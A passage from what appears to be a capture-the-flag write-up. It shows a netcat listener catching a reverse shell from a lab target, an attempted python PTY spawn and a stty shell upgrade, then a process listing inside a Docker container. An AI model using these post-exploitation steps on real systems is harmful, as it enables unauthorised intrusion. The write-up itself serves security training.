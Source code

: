     
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.184 55194
    / $ ^[[49;5R
    

`script` isn’t installed, but I can use `python3` to get a PTY and then do the
standard [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    / $ ^[[49;5Rpython3 -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    Traceback (most recent call last):
      File "<string>", line 1, in <module>
      File "/usr/lib/python3.9/pty.py", line 158, in spawn
        os.execlp(argv[0], *argv)
      File "/usr/lib/python3.9/os.py", line 557, in execlp
        execvp(file, args)
      File "/usr/lib/python3.9/os.py", line 574, in execvp
        _execvpe(file, args)
      File "/usr/lib/python3.9/os.py", line 597, in _execvpe
        exec_func(file, *argrest)
    FileNotFoundError: [Errno 2] No such file or directory
    / $ ^[[49;5R^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    / $
    

#### Processes

Containers are virtual spaces, but they are sharing process space with the
host. Looking at the processes, it’s worth looking at what is running:

    
    
    / $ ps auxww                                     
    PID   USER     TIME  COMMAND             
        1 root      0:14 {systemd} /sbin/init       
        2 root      0:00 [kthreadd]                  
        3 root      0:00 [rcu_gp]              
        4 root      0:00 [rcu_par_gp]        
        5 root      0:00 [netns]        
        7 root      0:00 [kworker/0:0H-ev]  
        9 root      0:07 [kworker/0:1H-kb]
    ...[snip]...
     1194 root      0:00 /usr/sbin/cron -f -P
     1195 1000      0:00 sleep 100000000
     1203 root     12:12 /usr/bin/containerd
     1220 root      0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
     1229 root      0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
     1240 root      0:00 nginx: master process /usr/sbin/nginx -g daemon on; master
     1241 xfs       0:25 nginx: worker process
     1242 xfs       1:31 nginx: worker process
     1255 root      2:26 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/con
     1482 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-po
     1506 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 49
     1520 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-po
     1526 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 40
     1541 root      0:55 /usr/bin/containerd-shim-runc-v2 -namespace moby -id c0fe8
     1563 root      0:26 tail -f /logfile
    ...[snip]...
    